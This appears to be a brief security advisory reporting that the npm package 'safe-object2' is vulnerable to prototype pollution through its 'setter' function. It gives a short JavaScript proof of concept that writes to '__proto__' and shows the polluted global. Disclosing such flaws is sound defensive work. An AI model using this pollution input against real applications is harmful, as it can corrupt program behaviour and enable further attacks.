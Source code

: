 # Overview

`safe-object2` is a Secure operation object `get/set`, this package is vulnerable to Prototype Pollution via. the `setter` function.

# Proof of Concept
```
const safeObj2 = require("safe-object2");
const obj = safeObj2({});
obj.setter(['__proto__', 'polluted'], true)
console.log(polluted); // true
```
